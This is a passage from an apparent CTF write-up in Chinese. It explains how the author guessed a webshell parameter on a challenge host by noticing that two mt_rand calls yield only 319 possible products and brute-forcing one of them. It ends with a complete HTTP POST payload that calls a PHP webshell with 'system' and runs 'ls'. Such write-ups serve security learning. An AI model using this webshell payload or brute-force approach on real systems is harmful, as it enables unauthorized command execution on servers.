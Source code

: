 我在那个页面里面只看到了代码，但没有打印任何的数字

我就尝试地去访问了下那个注释的 php 文件

发现是一个 7 位数数字，正好对上了两个 4 位数相乘

所以后面在连 Webshell 构造参数的时候，也要在这个文件那里搞

我一开始的思路，是遍历这个 seed 值

根据这个 seed 值去获取特定的随机数序列

拿这个随机数序列去和服务器生成的随机数序列进行比对

如果生成的随机数序列和服务器的相同

则表示服务器生成随机数使用的 seed 值也是这个

【PS：因为代码中没调用 mt\_srand，所以是系统随机生成的，常规来说 mt\_srand 会在第一次调用 mt\_rand 的时候生成，后面的会沿用第一次调用生成的 seed】

但如果要按这个思路来搞的话，工作量是很大很大的

首先，我得遍历足够数量的 seed 保证系统随机生成的 seed 能被我跑到

其次，生成的随机数序列也得足够大，因为我没办法知道随机数已经被生成了多少次

综合上面这两点，让我觉得这个思路可能会行不通...

那怎么办呢？

我又好好的看了一遍代码...

发现生成的两个随机数的个数其实很少

```plain
$x=mt_rand(2012,2022);
$y=mt_rand(1997,2024);
```

最后取乘积的话，也就只有 29 \* 11 = 319 种可能而已

那我只需要取其中一种可能，一直爆破就行...

事实上确实可行

根据之前得到的构造下 Payload

```plain
POST /au2c7ts62gs1ush13.php?Nhhb=system HTTP/1.1
Host: v50crazyKfc.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://v50crazyKfc.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Authorization: Basic c3lzdGVtOjEyMzQ1Ng==
Connection: close
Upgrade-Insecure-Requests: 1

4054162=ls
```
